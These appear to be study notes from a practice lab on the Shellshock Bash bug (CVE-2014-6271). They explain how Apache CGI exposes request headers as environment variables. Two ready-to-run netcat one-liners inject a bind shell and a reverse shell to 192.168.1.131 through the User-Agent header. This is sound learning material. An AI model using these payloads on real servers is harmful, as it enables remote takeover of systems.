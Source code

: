 # Notes
	1. Bash from (1.4-4.9) can execute functions when we declare environment variables.
	2. This was exploited by researcher(Stephane).
	3. As OLD CGI Scripts were build using Bash/C not Python/PERL, this exploit was affected to all Apache servers running CGI Scripts(One of the exploit from this CVE)
	4. Now, apache needs to pass some information about user from headers to body to everything to CGI scripts, and they do this via environment variables present in CGI Scripts.
	5. So, every CGI Script has environment variable associated from Apache, like HTTP_Referer, HTTP_User_Agent, etc.
	6. Now, comes the explanation of Bash Exploit.
		a. In Bash we can set functions inside environment variables, but researcher found that, even after function is ran inside env variable, execution does not end.
		b. Lets say we have variable like this `my_var=(){ignored;};/bin/ls`
		c. After execution of above function , /bin/ls is also executed.
	7. Considering this exploit, and how CGI Scripts were written in Bash, if we pass information like HTTP_Referer: () {ignored;}; /bin/ls => This will run the ls command.
	8. We can get shell from running either of scripts(bind/reverse) from below.

# Scripts
	1. echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; nc -lvnp 9999 -e /bin/sh\r\nHost: ptl-5ce6f0a8-69f5c4eb.libcurl.so\r\nConnection: close\r\n\r\n" | nc ptl-5ce6f0a8-69f5c4eb.libcurl.so 80
	2. echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; nc 192.168.1.131 443 -e /bin/sh\r\nHost: ptl-5ce6f0a8-69f5c4eb.libcurl.so\r\nConnection: close\r\n\r\n" | nc ptl-5ce6f0a8-69f5c4eb.libcurl.so 80

# Resources
	1. https://seclists.org/oss-sec/2014/q3/650
	2. http://www.cgi101.com/book/ch3/text.html (For understanding env variables in CGI)
	3. https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/ (Need to read this)
	4. https://httpd.apache.org/docs/2.4/howto/cgi.html (For understanding how CGI and apache works)